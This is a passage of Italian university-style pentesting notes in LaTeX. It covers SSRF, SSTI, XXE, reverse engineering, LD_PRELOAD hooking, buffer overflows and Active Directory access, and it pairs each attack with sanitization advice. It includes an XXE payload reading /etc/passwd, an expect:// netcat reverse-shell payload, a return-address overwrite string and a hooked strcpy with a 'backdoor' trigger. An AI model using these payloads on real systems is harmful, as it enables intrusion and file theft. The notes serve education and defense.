La soluzione più efficace contro ogni tipo di \textbf{File Inclusion} è l'uso di \textbf{whitelist}.\\ In aggiunta, verificare l'\textbf{estensione dei file} e la \textbf{coerenza con suoi magic byte} prima di accettare un upload sono ottime soluzioni aggiuntive.

Invece è estremamente sconsigliato, come per pressoché tutte le vulnerabilità, l'uso di \textbf{blacklist} e di \textbf{euristiche}.

\newpage

\subsection{Server Side Request Forgery (SSRF)}
La \textbf{Server Side Request Forgery (SSRF)} è una vulnerabilità Server-Side dove l'attaccante riesce ad inviare richieste \textbf{dal server web attaccato verso qualsiasi altra macchina online}, che sia nella \textbf{rete locale} del web server o \textbf{remota}.

SSRF è molto efficace per comunicare con macchine all'interno della rete locale del web server che \textbf{non sono esposte in rete} e/o che accettano \textbf{pacchetti} e \textbf{richieste} solo da altre \textbf{macchine locali}, essenzialmente permettendo \textbf{esplorazioni della sottorete} e \textbf{movimento laterale}.

Le azioni che l'attaccante può effettuare dipendono \textbf{dalla vulnerabilità trovata}:
\begin{itemize}
	\item Nel caso migliore l'attaccante ottiene \textbf{il pieno controllo dei pacchetti TCP} inviati dal web server.
	
	\item Generalmente l'attaccante può al più scegliere l'indirizzo verso cui far partire la SSRF e la porta.  
\end{itemize}

Tuttavia anche il secondo caso permette comunque di \textbf{impersonare} il web server presso un'altra entità.


\subsubsection{Come trovare una SSRF}
Similmente alla Remote File Inclusion, la SSRF può essere scoperta notando che all'interno di un vettore di input, come un parametro GET, un cookie o un form, è possibile inserire un URL.

Supponendo un sito web \verb|victim.site| con un parametro GET come \verb|getResource?path|, un uso legittimo sarebbe:
\begin{verbatim}
	victim.site/getResource?path=s3.bucket/config.php
\end{verbatim}

L'attaccante può provare ad inserire l'IP (o il nome del dominio) di un suo server e controllare \textbf{se arriva una richesta da parte del web server attaccato}:
\begin{verbatim}
	victim.site/getResource?path=sito.attaccante
\end{verbatim}

Se succede, è molto probabile che si tratti di una SSRF.

\subsubsection{Blind SSRF}
Una vulnerabilità Blind SSRF compare quando un sito web può essere indotto ad inviare una richiesta HTTP back-end a un URL fornito, ma la risposta della richiesta back-end non viene restituita nella risposta front-end dell'applicazione.

Seppur in alcuni casi si può sempre ottenere esecuzione di codice arbitrario, l'impatto delle vulnerabilità Blind SSRF è spesso inferiore rispetto a quella di una SSRF. 

\textbf{Come troviamo una Blind SSRF?}

Un metodo per scovare macchine attive su cui fare Blind SSRF è verificare il \textbf{tempo di risposta}. Il sito web potrebbe impiegare poco tempo per gli indirizzi della macchina \textbf{senza macchine attive} e notevolmente più tempo del \textbf{tempo medio di risposta} (o anche il viceversa) per gli indirizzi con macchine attive. Su questi indirizzi è possibile fare Blind SSRF. 

Possiamo usare \textbf{Webhook}, un servizio che mette a disposizione \textbf{URL pubblici temporanei}, per testare la presenza di SSRF su qualsiasi sito semplicemente inviando una richiesta dal sito verso il nostro Webhook per verificare se compare una nuova connessione. Se compare, probabilmente il sito è \textbf{vulnerabile a SSRF}.

\textbf{Esempio di Blind SSRF}

Supponiamo che l'attaccante prova vari indirizzi IP appartenenti alla sottorete del web server:\\ \verb|victim.site/getResource?path=192.168.0.34/config.php|

L'attaccante comincia a verificare il tempo medio di risposta del web server. Supponendo che il tempo medio di risposta di \verb|victim.site/getResource| sia di \textbf{400 ms} e che resti invariato per per tutti gli indirizzi della maschera
\verb|192.168.0.0/24|, tranne per \verb|.65| e \verb|.112| per cui il tempo di risposta è stato \textbf{900 ms}, questi due indirizzi molto probabilmente indicano una macchina attiva.

\subsubsection{Sanitizzazione di SSRF}
Se il sito web è stato programmato per inviare richieste e pacchetti verso altre macchine, la migliore soluzione è una \textbf{whitelist} con i server e le risorse permesse, affinché si possa ridurre \textbf{movimento laterale} e l'utilizzo delle funzionalità permesse.

Altrimenti si potrebbe \textbf{isolare} la macchina che ospita \verb|victim.site| e fare in modo che non sia usata per altri scopi.

\subsection{Server Side Template Injection (SSTI)}
I \textbf{Template}, una valida soluzione per difendersi da attacchi XSS in ambiente Client-Side, se non implementati correttamente (o se contengono vulnerabilità) possono permettere, non solo XSS, ma anche \textbf{Server Side Template Injection (SSTI)}, vulnerabilità che permette di eseguire \textbf{codice arbitrario} sul server.

\subsubsection{Esempio con Template Engine Twig}
Ecco un frammento di codice Twig, che stampa un saluto \textbf{senza valutare il contenuto della variabile username} perchè fra graffe singole:
\begin{verbatim}
	$output = $twig ->
		render(“Hello, {username}!”,
			array(“username” => $userDetails.username)
			);
\end{verbatim}

Dalla variabile \verb|$userDetails|, viene estratto il valore di username e viene inserito nella pagina. La logica per l’estrazione dei dettagli utente dal database, e la conseguente popolazione della variabile, risiede su \textbf{un altro file del template}.

Qui il funzionamento del codice è corretto, ma se il programmatore avesse dimenticato di usare il template e avesse stampato direttamente la variabile:
\begin{verbatim}
	$output = $twig ->
		render(“Hello, ”.$userDetails.username,
			array(“username” => $userDetails.username)
			);
\end{verbatim}

L'attaccante potrebbe eseguire \textbf{codice arbitrario}. Un esempio semplice potrebbe essere il semplice cambio del nome utente:
\begin{verbatim}
	$output = $twig ->
		render(“Hello, ”.Giorgio{{9*9}},
			array(“username” => $userDetails.username)
		);
\end{verbatim}

Essendo la variabile \verb|$userDetails.username| passata direttamente dentro la funzione render, il web server \textbf{esegue} il contenuto presente nelle parentesi graffe.

In questo modo l'attaccante potrebbe anche riuscire ad impostare una \textbf{Reverse Shell} tramite payload più complessi.

\subsubsection{Sanitizzazione di SSTI}
La sanitizzazione di SSTI prevede due misure:
\begin{itemize}
	\item Aggiornare costantemente il \textbf{Template Engine}, affinché determinate vulnerabilità scoperte possano essere risolte.
	\item Usare gli strumenti messi a disposizione dal Template Engine, evitando di stampare variabili senza sanitizzazione.
\end{itemize}

\newpage
\subsection{XML eXternal Entity (XXE)}
\subsubsection{eXtensible Markup Language (XML)}
XML è un \textbf{linguaggio di markup} progettato per inviare o salvare dati in un formato facile da leggere. Come HTML, ha una \textbf{struttura ad albero}, in cui ogni nodo è identificato da un \textbf{tag}.

\subsubsection{XXE}
XXE è un attacco rivolto ai \textbf{parser XML} che si trovano all’interno delle applicazioni web, utilizzati per permettere \textbf{l’upload di documenti}, per \textbf{aprire documenti Office} su una pagina web, per \textbf{visualizzare dati JSON}, ed etc.


\subsubsection{Parser XML + Rischi se non sanitizzato}
Un parser XML ha tre funzioni principali:
\begin{enumerate}
	\item Analizzare il contenuto XML del file che riceve in input.
	
	\item Verificare che tutte le entità utilizzate all’interno del file XML siano descritte all’interno della Document Type Declaration (DTD).
	
	\item Validare e processare la DTD, risolvendo eventuali dipendenze esterne.
\end{enumerate}

Quando un file XML viene analizzato da un XML parser senza adeguata sanitizzazione, un attaccante può sfruttare XXE per \textbf{leggere ed esfiltrare file} dal file system del web server, causare \textbf{DoS (Denial of Service)} o anche eseguire \textbf{codice arbitrario}.

\subsubsection{Esempio codice XML}
In questo esempio descrivo cosa fa questo codice XML (non sanitizzato) riga per riga. Successivamente si analizzano possibili payload.

\begin{minipage}{0.50\textwidth}
\begin{verbatim}
<?xml version=“1.0” encoding=“ISO-8859-1” ?>
<!DOCTYPE vapt [
	<!ELEMENT vapt ANY>
	<!ENTITY myVariable “Slides go here”>
]>
<vapt>Hello world! Here you can find the slides:
&myVariable;</vapt>
\end{verbatim}
\end{minipage}
\quad\quad
\begin{minipage}{0.45\textwidth}
\begin{enumerate}
	\item Linea 1: La versione di XML utilizzata è 1.0.
	\item Linea 2: Inizia la DTD: l’elemento radice del nostro
	file XML è “vapt”.
	\item Linea 3: L’elemento “vapt” può essere di qualsiasi
	tipo.
	\item Linea 4: L’entità “myVariable” contiene la stringa “Slides go
	here”.
	\item Linea 5: Fine della DTD.
	\item Linee 6-7: Corpo dell’XML. Idealmente \verb|&myVariable| dovrebbe puntare al file con le slide, ma per ora il file XML contiene solo la stringa “Slides go here”
\end{enumerate}
\end{minipage}

La pagina web, dopo	che il parser XML ha analizzato il codice, visualizza: 
\begin{verbatim}
	“Hello World! Here you can find the slides: Slides go here” 
\end{verbatim}

\subsubsection{Esempi di payload}
Consideriamo un sito che permetta upload e visualizzazione di un file XML. L'attaccante, visto il codice XML, decide di volere accedere al filesystem del web server. Egli modifica esclusivamente la riga 4:
\begin{verbatim}
	<?xml version=“1.0” ?>
	<!DOCTYPE vapt [
		<!ELEMENT vapt ANY>
		<!ENTITY myVariable SYSTEM “file:///etc/passwd”>
	]>
	<vapt>Hello world! Here you can find the slides: &myVariable;</vapt>
\end{verbatim}
Ora l'entità \verb|&myVariable| punta a \verb|/etc/passwd|, che viene divulgato nella pagina web. Questa modifica è valida per il parser.

\newpage
Un ulteriore esempio è questo:
\begin{verbatim}
	<?xml version=“1.0” ?>
	<!DOCTYPE vapt [
		<!ELEMENT vapt ANY>
		<!ENTITY myVariable SYSTEM
	“expect://nc$IFS-nvlp$IFS’4321’$IFS-e$IFS’/bin/bash’”>
	]>
	<vapt>Hello world! Here you can find the slides: &myVariable;</vapt>
\end{verbatim}

In questo esempio viene modificata la riga 4 ed aggiunta una nuova riga
con il payload che apre una \textbf{reverse shell}.\\
Questo payload funziona esclusivamente se il modulo PHP "expect" è stato caricato. Inoltre l'attaccante usa \verb|$IFS| (Internal Field Separator) per creare spazi.

\subsubsection{Sanitizzazione di XXE}
La strategia migliore è creare una \textbf{whitelist} delle operazione consentite dentro il parser XML stesso. Se il programmatore non ha accesso al codice sorgente del parser, allora deve \textbf{whitelistare} le operazioni di caricamento file XML nel sito stesso.

\newpage

\section{Reverse Engineering}

Il \textbf{Reverse Engineering} è il \textbf{processo di analisi di un sistema software esistente}, eseguito al fine di crearne una \textbf{rappresentazione ad alto livello di astrazione}.\\
Ad un pentester può essere utile studiare un eseguibile per cercare vulnerabilità che possono esporre a rischi i dati che l’applicazione gestisce.

Esistono due tipologie di analisi: \textbf{statica} e \textbf{dinamica}.

\subsection{Analisi Statica}
L'analisi \textbf{statica} consiste in una serie di operazioni volte ad analizzare il file binario \textbf{senza che esso venga eseguito}. Tra le operazioni sono comprese l'analisi di \textbf{codice disassemblato o decompilato} e delle risorse presenti all'interno del file.

\subsubsection{Objdump}
Objdump è un tool che permette di estrarre informazioni utili su un
eseguibile o file binario. Sintassi:
\begin{verbatim}
	objdump [options] ./filename
\end{verbatim}

Comprende moltissime funzioni, ognuna consultabile tramite il comando \verb|-H|.\\
Tra le più importanti troviamo:
\begin{itemize}
	\item \verb|-x|: Permette di visualizzare il contenuto degli \textbf{header}, il formato e l'architettura del file, le flag e l'indirizzo di partenza.
	
	\item \verb|--section|: Permette di elencare specifiche sezioni da analizzare. Successivamente con \verb|-s| è possibile visualizzare le sezioni selezionate.
	
	\item \verb|-d|: Permette di \textbf{disassemblare} il codice dell'eseguibile tramite sezioni definite con\\ \verb|--start-address=0xaddr| e \verb|--stop-address=0xaddr|. Questa funzione disassembla esclusivamente le sezioni che contengono istruzioni.
	
	\item \verb|-D|: Permette di disasseblare \textbf{l'intero codice}.
	
	\item \verb|-S|: Mostra il codice sorgente (assembly), se possibile. Richiede l'uso di \verb|-d| o \verb|-D|.
	
	\item \verb|-V|: Stampa la versione di \textit{Objdump} installata ed esce.
\end{itemize}

\subsubsection{Strings}
Strings è un tool è possibile visualizzare \textbf{tutte le stringhe composte da caratteri stampabili} che si trovano all’interno dell’eseguibile analizzato. Sintassi:
\begin{verbatim}
	strings [options] ./filename
\end{verbatim}

Risulta utile nei casi in cui il programmatore dell'eseguibile abbia \textbf{lasciato in chiaro informazioni di valore}, come password di database o di utenti, introducendo una vulnerabilità chiamata \textbf{Information Leakage}.

Inoltre, grazie alle stringhe estratte, il pentester può capire a cosa serve l'eseguibile e quali sono le sue funzionalità. Tra le opzioni, tutte visualizzabili con \verb|-h|, ci sono:
\begin{itemize}
	\item \verb|-d|: Permette di scansionare esclusivamente le sezioni del codice del file.
	
	\item \verb|-n|: Permette di stampare stringhe con lunghezza di pari o superiore a \textit{n}. Ad esempio, se si volesse stampare solo le stringhe di lunghezza pari o superiore di 8, si scriverebbe \verb|-8|.
	
	\item \verb|-T|: Permette di specificare il formato del file binario.
	
	\item \verb|-w|: Permette di includere \textbf{tutti} i caratteri whitespace come \verb|\n| e \verb|\t|. 
	
	\item \verb|-v|: Stampa la versione di \textit{strings} installata ed esce.
\end{itemize}

\newpage

\subsection{Analisi Dinamica}
L'analisi \textbf{dinamica} consiste nell'esaminare l'eseguibile quando \textbf{è in esecuzione} su una macchina, reale o virtuale. Per quanto riguarda l'analisi dinamica, ai fini del Reverse Engineering ci sono tool, come \verb|strace| ed \verb|vtrace|, che ci permettono di \textbf{analizzare le chiamate di sistema effettuate} dall’eseguibile e le chiamate a funzioni che risiedono in librerie esterne.

\subsubsection{STrace}
\verb|strace| è un tool che permette di visualizzare quali \textbf{chiamate di sistema vengono effettuate} dall’eseguibile che stiamo esaminando. Si dimostra utile per vedere:
\begin{itemize}
	\item Operazioni sul \textbf{filesystem}, come i file \textbf{letti} o \textbf{scritti} in memoria secondaria.
	
	\item Operazioni sulla memoria \textbf{primaria}, come le allocazioni di memoria effettuate (su stack e su heap).
	
	\item Operazioni a \textbf{livello di rete}, per vedere quello che viene inviato o ricevuto mediante una \textbf{socket}.
\end{itemize}

L'output di \verb|strace| non è di facile comprensione in quanto ogni operazione che traccia è effettuata \textbf{a basso livello}.

\subsubsection{LTrace}
\verb|ltrace| è un tool che permette di visualizzare quali \textbf{chiamate di libreria vengono effettuate} dall’eseguibile che stiamo esaminando. 
Rispetto ad \verb|strace|, \verb|ltrace| lavora ad un livello più \textbf{alto} essendo che intercetta le chiamate di \textbf{libreria} e quindi il suo output è di più facile comprensione.

Tramite \verb|ltrace| possiamo identificare velocemente tali chiamate e capire con più precisione \textbf{cosa sta eseguendo il programma}. È anche possibile ispezionare un processo già in esecuzione mediante l’opzione \verb|-p pid|, sostituendo a \verb|pid| l’ID di un processo (possibile anche su \verb|strace|).

\subsection{Interactive DisAssembler (IDA)}
Interactive DisAssembler è un tool per reverse engineering che \textbf{analizza} e \textbf{disassembla} i file binari passati in input. Permette molteplici funzioni:
\begin{itemize}
	\item Utilizzabile sia in analisi \textbf{statica} che \textbf{dinamica};
	
	\item Disassembla gli eseguibili in assembly e annota informazioni sui riferimenti tra il codice e i dati del programma, la posizioni delle funzioni, nella stack delle chiamate e ricostruisce il tipo di dati.
	
	\item Il flusso di esecuzione del programma può essere visualizzato tramite un grafico.
	
	\item Permette il patching dei file binari, anche in \textbf{runtime}.
	
	\item Permette di \textbf{decompilare il codice} e ha un debugger incluso.
\end{itemize}

Essendo un tool in continuo sviluppo, è disponibile molta documentazione.
Tuttavia la versione gratuita presenta molte limitazioni, ad esempio non dispone del decompilatore e del debugger.


\subsection{Ghidra}
Ghidra è un tool sviluppato dall NSA per Reverse Engineering rilasciato al pubblico nel 2019. Anch'esso presenta molteplici funzioni:
\begin{itemize}
	\item Utilizzabile principalmente per analisi \textbf{statica}. Infatti non supporta il patching dei file binari \textbf{durante runtime}.
	
	\item Come IDA, permette di \textbf{disassemblare} gli eseguibili in assembly con le stesse caratteristiche di IDA.
	
	\item Comprende un \textbf{decompilatore C}, che fornisce un'approssimazione del codice sorgente in C corrisponente all'eseguibile fornito.
	
	\item Fornisce anche un \textbf{Process Flow Diagram} del codice per migliorarne la leggibilità.
	
	\item Permette il debugging, ma si affida a debugger esterni come GDB.
\end{itemize}

La NSA continua a sviluppare e rilasciare aggiornamenti su Ghidra, tuttavia la documentazione non è tanto quanto completa come quella di IDA.

\newpage

\subsection{GDB}
GDB è un \textbf{debugger} con cui è possibile analizzare programmi scritti in diversi linguaggi di programmazione, tra cui C e C++.
Sintassi base: \verb|gdb --args [file] [parameters]|\\
Comprende inoltre diverse funzioni:
\begin{itemize}
	\item Tramite \verb|break [*0xaddr]| è possibile impostare \textbf{breakpoint} durante l'esecuzione di un programma.
	
	\item Guardare o modificare il contenuto dei registri in real-time, tra cui il program counter, permettendo quindi di modificare il flusso di esecuzione del programma.
	
	\item Visualizzare il codice disassemblato tramite \verb|layout asm|.
	Inoltre tramite \verb|layout regs| viene visualizzato anche il contenuto dei registri.
	
	\item Eseguire un’istruzione assembly alla volta tramite \verb|continue|.
\end{itemize}

\subsection{Library Hooking}
\subsubsection{Problemi del patchare file binari}
Seppur sia con IDA che con Ghidra sia possibile patchare i file binari, non è l'\textbf{unica soluzione} per l'analisi dinamica e in alcuni casi è \textbf{controproducente} in quanto si altera il checksum dell'eseguibile originale che, in alcuni casi, potrebbe essere usato dal programma stesso per verificare parti di codice.\\
In altri casi, una cattiva patch potrebbe rendere il codice \textbf{inutilizzabile}.

\subsubsection{LD\_PRELOAD}
Una soluzione a questo problema è il \textbf{Library Hooking} tramite \verb|LD_PRELOAD| che consiste in una \textbf{variabile d'ambiente} che indica quali librerie devono essere caricate per prime all'atto dell'esecuzione di un programma.

Similmente all'override delle funzioni, se le librerie indicate in \verb|LD_PRELOAD| contengono funzioni che sono dichiarate in altre librerie, come in \verb|stdio.h|, le funzioni in \verb|LD_PRELOAD| ottengono la precedenza e vengono eseguite al posto delle funzioni normali. Tuttavia rimane possibile mantenere le funzioni originali tramite un \textbf{puntatore alla funzione}.

\textbf{Esempio di Library Hooking con LD\_PRELOAD}

\begin{minipage}{0.50\textwidth}
\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[])
{
	printf("Allocating 8 bytes...\n");
	char buf[8];
	
	//Controllo del numero degli argomenti
	if(argc != 2) {
		printf("Usage: %s <string>\n", argv[0]);
		return 1;
	}
	
	//Creo un puntatore a buf
	char *a = strcpy(buf, argv[1]);
	if (a != buf){
		//Non arriverà mai qui
		secretFunction();
	}
	return 0;
}
\end{verbatim}
\end{minipage}
\quad
\begin{minipage}{0.46\textwidth}
\begin{itemize}
	\item La funzione \verb|secretFunction()| non verrà mai eseguita, in quanto \verb|strcpy()| restituisce un \textbf{puntatore alla stringa copiata}.\\
	\item Le variabili \verb|a| e \verb|buf| puntano quindi allo stesso indirizzo.\\
	\item Definiamo quindi una versione di \verb|strcpy()| da inserire in una libreria personalizzata. Essendo \verb|strcpy()| una funzione contenuta in \verb|string.h|, bisogna usare una libreria chiamata \verb|dlfcn.h|, che permette di ottenere \textbf{puntatori} alle funzioni delle \textbf{shared library}.
\end{itemize}
\end{minipage}
\newpage

\textbf{Definizione della nuova} \verb|strcpy()|

\begin{verbatim}
#define _GNU_SOURCE //Necessario per includere <dlfcn.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <dlfcn.h> 

//Conterrà il puntatore a strcpy originale
char* (*orig_strcpy)(char*, const char*);

//Nostra strcpy personalizzata
char* strcpy(char *dst, const char *src)
{ 
	//Salviamo il puntatore
	if(!orig_strcpy) orig_strcpy = dlsym(RTLD_NEXT, "strcpy"); 
	
	//Lasciamo una backdoor per richiamare la funzione originale
	if(strcmp(src, "backdoor") == 0) { 
		return orig_strcpy(dst, src);
	}
	
	//Copia di src in dst
	while ((*dst++ = *src++) != '\0'){
		// Invece di restituire il puntatore, restituiamo ‘1’!
		return ‘1’;	
	} 
}
\end{verbatim}

Questa funzione verra salvata in un file che chiamiamo \verb|fix.c|\\
Successivamente compiliamo: \verb|gcc fix.c -shared -fPIC -o fix.so -ldl|

\begin{itemize}
	\item \verb|-shared| dice al compilatore di generare un oggetto \textbf{condiviso} che può essere linkato ad altri oggetti per formare un eseguibile.
	
	\item \verb|-fPIC| dice al compilatore di generare "Position Independent Code", così che la libreria possa essere caricata ovunque in memoria.
	
	\item \verb|-ldl| permette alle funzioni della nostra libreria di caricare esplicitamente altre librerie usando la libreria libdl.
\end{itemize}

Infine passiamo alla variabile \verb|LD_PRELOAD|, a cui passiamo il \textbf{path assoluto} della nostra libreria ed eseguiamo l'eseguibile dando in input un qualsiasi valore che non sia \textbf{backdoor} (che attiverebbe la \verb|strcpy()| originale):
\begin{verbatim}
	LD_PRELOAD=`pwd`/fix.so ./targetApp input
\end{verbatim}

La stringa \verb|pwd| sta per \textbf{print working directory} mentre \verb|input| è la stringa che diamo in input all'eseguibile. Attivandosi la \verb|strcpy| modificata, la funzione \verb|secretFunction()| viene eseguita.


\section{Binary Exploitation}
Una volta \textbf{analizzato} il file eseguibile il pentester potrebbe aver scoperto delle vulnerabilità da sfruttare. Le più comuni sono:
\begin{itemize}
	\item \textbf{Buffer Overflow};
	\item \textbf{Shellcode Injection};
	\item \textbf{Read Out of Bounds}.
\end{itemize}

Come per la Reverse Engineering, anche per la \textbf{Binary Exploitation} vi sono tool che il pentester può usare per rendere più efficiente la procedura.

\newpage

\subsection{Buffer Overflow}
Un Buffer Overflow accade quando un eseguibile \textbf{scrive su un indirizzo di memoria che sta fuori dallo spazio allocato allo scopo}. 

Questo avviene quando un programma cerca di scrivere in un buffer \textbf{un dato di dimensione più grande del buffer stesso}, per cui il programma scrive fuori da esso. Ne consegue una \textbf{corruzione} della memoria che può portare ad un \textbf{crash del programma} improvviso oppure \textbf{comportamento indefinito}.

\subsubsection{Esempio di codice vulnerabile a Buffer Overflow}

\begin{minipage}{0.50\textwidth}
\begin{verbatim}
	#include <stdio.h>
	#include <string.h>
	
	void fillBuffer(char *bar){
		// alloco un buffer statico di 12 byte
		char c[12];
		// Vulnetabilità
		strcpy(c, bar);
	}
	
	int main(int argc, char *argv[]){
		fillBuffer(argv[1]);
		return 0;
	}
\end{verbatim}
\end{minipage}
\begin{minipage}{0.46\textwidth}
\begin{itemize}
	\item Il \textbf{main} contiene una singola funzione
	\verb|fillBuffer()| che prende in input una stringa.\\
	
	\item La funzione \verb|fillBuffer()| alloca un buffer statico di 12 byte, nello stack. Successivamente la funzione copia la stringa passata in input nel buffer.\\
	
	\item La vulnerabilità esiste in quanto non viene \textbf{effettuato} alcun controllo sulla dimensione della stringa da copiare. Qualsiasi stringa con una lunghezza \textbf{maggiore di 11 byte} causerebbe un \textbf{Buffer Overflow}.
\end{itemize}
\end{minipage}


\begin{minipage}{0.50\textwidth}
\begin{figure}[H]
	
\includegraphics[width=0.7\linewidth]{Immagini/StackNoOverflow.png}

\end{figure}
\end{minipage}
\begin{minipage}{0.45\textwidth}
\begin{itemize}
	\item Supponendo che la memoria sia di 32 bit.\\ Se l’input dell’utente è lungo 11 caratteri o meno, il programma funziona correttamente, come mostrato nell’immagine a sinistra, in cui l’input è “hello”.\\
	
	\item Si noti che l’input è seguito da un NULL byte in quanto, in C, esso viene usato per segnalare la fine di una stringa. Quindi, \textbf{una stringa di almeno 12 caratteri causerebbe BUffer Overflow}, in quanto il NULL byte andrebbe a strabordare nello spazio dedicato a *bar ed eventualmente oltre.
\end{itemize}
\end{minipage}

\begin{minipage}{0.50\textwidth}
\begin{itemize}
	\item Supponiamo il caso in cui l'attaccante voglia sfruttare il Buffer Overflow e sovrascrivere il \textbf{return address} per eseguire \textbf{codice arbitrario}.
	
	\item Per farlo, inserisce come input: \verb|AAAAAAAAAAAAAAAAAAAA\x08\x35\xC0\x80|\\
	che sovrascrive fino al \textbf{return address} che riceve il valore \verb|0x80C03508|.
	
	\item Di conseguenza, l’attaccante impone che, non appena la
	funzione fa \textbf{return}, l’esecuzione passi all’indirizzo \verb|0x80C03508|, inducendo il programma a fare qualcosa di arbitrario. Allo stesso modo si possono sovrascrivere \textbf{Stack Pointer} o il \textbf{Frame Pointer}.
\end{itemize}
\end{minipage}
\quad\quad\quad
\begin{minipage}{0.45\textwidth}
\begin{figure}[H]
	
\includegraphics[width=0.75\linewidth]{Immagini/StackWithOverflow.png}
\end{figure}
\end{minipage}

\newpage

\subsubsection{Come scoprire un Buffer Overflow}
Scoprire un Buffer Overflow è generalmente facile se si possiede il codice sorgente del programma, infatti basta effettuare un \textbf{code review} e verificare che non vi siano funzioni che interagiscono con la memoria, come \verb|strcpy| o \verb|memcpy|, senza controlli.	

Tuttavia, in mancanza del codice sorgente, il pentester è costretto ad usare altre strategie:
\begin{itemize}
	\item Ricorrere a tecniche e tool di \textbf{Reverse Engineering}, se possibile.
	
	\item Provare ad \textbf{attaccare}, manualmente o automaticamente, \textbf{ogni possibile sink} con payload che potrebbero causare una
	Segmentation Fault.
\end{itemize} 

Nel tentativo di attaccare un sink, bisogna saper trovare un payload \textbf{adeguato} per trovare una vulnerabilità, ovvero capire il \textbf{punto esatto} dove l'input dell'utente riesce a sovrascrivere l'\textbf{instruction pointer} o il \textbf{return address}. Per fare questo è necessario l'uso di debugger o di altri tool appositi.

\subsubsection{Shellcode Injection}
Una Shellcode Injetion è una tecnica utilizzata per eseguire \textbf{codice arbitrario} all'interno di uno spazio degli indirizzi di un processo. Per ottenere una Shellcode Injection, sono necessari dei requisiti:
\begin{enumerate}
	\item Possibilità di sovrascrivere parte dello Stack tramite Buffer Overflow;
	\item Conoscere l’\textbf{esatto indirizzo} delle locazioni di memoria che stiamo sovrascrivendo;
	\item Avere controllo del \textbf{return address} o dell’\textbf{instruction pointer}.
\end{enumerate}

\subsubsection{Read Out of Bounds}
Il Read Out of Bounds è una vulnerabilità che si verifica quando un eseguibile legge un indirizzo di memoria che sta fuori dallo spazio allocato allo scopo.\\
Come con il Buffer Overflow, il Read Out of Bounds si verifica quando il programma non effettua adeguati controlli sulla dimensione del dato che sta cercando di leggere, o quando non viene correttamente validato l’indirizzo di memoria che l’applicazione sta leggendo, esponendo l'attaccante ad informazioni a cui non dovrebbe aver accesso.

\textbf{Esempio di Codice vulnerabile a Read Out of Bounds}

\begin{minipage}{0.60\textwidth}
\begin{verbatim}
	int leggiArray(int *array, int len, int index){
		int value;
		// L’indice sia inferiore alla lunghezza dell’array
		if (index < len) {
			value = array[index];
		}
		else {
			value = -1;
		}
		return value;
	}
\end{verbatim}
\end{minipage}
\quad\quad
\begin{minipage}{0.35\textwidth}
Viene verificato solo se \verb|index| rispetta il \textbf{limite superiore}, ma non quello \textbf{inferiore}.\\ Cercare di leggere una posizione negativa all’interno di un array permette di leggere fuori dall’array stesso, realizzando una \textbf{Read Out of Bounds}.
\end{minipage}
\\
\begin{minipage}{0.40\textwidth}
Un esempio famoso di Read Out of Bounds è \textbf{HeartBleed}, una vulnerabilità di OpenSSL introdotta nel 2012 e trovata e patchata nel 2014.
\end{minipage}
\quad\quad\quad\quad\quad\quad\quad\quad
\begin{minipage}{0.55\textwidth}
\begin{figure}[H]
	
\includegraphics[width=0.805\textwidth]{Immagini/HeartBleed.png}
\end{figure} 
\end{minipage}

\newpage

\section{Exploitation delle Active Directory}
\subsection{Ottenere una utenza su Active Directory}
In molti incarichi di pentesting su Active Directory, ci viene dato di default l'accesso con un utente poco privilegiato, o in alcuni casi con solo l'accesso fisico alla struttura aziendale, dove non disponiamo di \textbf{account}, computer aziendale e accesso al Wi-Fi.

\subsubsection{Ottenimento dall'esterno}
Se ci viene chiesto di attaccare la rete aziendale da remoto, qualsiasi azione che \textbf{non arreca danni a cose o persone} e che ci consente l'accesso va bene. Alcuni delle tipiche azioni effettuabili dall'esterno per ottenere l'accesso sono:
\begin{itemize}
	\item \textbf{Phishing} sulle email dei dipendenti reperibili online.
	Trovata un email, essendo verosimili tra loro, è possibile risalire ad email di altri dipendenti con cui continuare l'attività di phishing.
	
	\item Violare applicazioni aziendali con accesso pubblico ad Internet.
	
	\item Tramite \textbf{Bruteforce} o tramite \textbf{Vulnerabilità}, note o 0-day.
\end{itemize}

\subsubsection{Ottenimento dall'interno}
Se invece abbiamo accesso all'interno dell'edificio aziendale, alcune azioni con cui possiamo ottenere l'accesso all'active directory, senza provocare danni, sono:
\begin{itemize}
	\item Aprire l’armadietto dei backup per vedere se ci sono informazioni utili.
	\item Entrare in sala server per cercare un accesso da console.
	\item Cercare postazioni incustodite o post-it/lavagne contenenti password.
	\item Cercare asset non dismessi in maniera consona, come vecchi hard disk e laptop.
	
	\item Connettere il nostro computer ad \textbf{Ethernet}, oppure al \textbf{WiFi} usando tool come \verb|Aircrack-ng|.
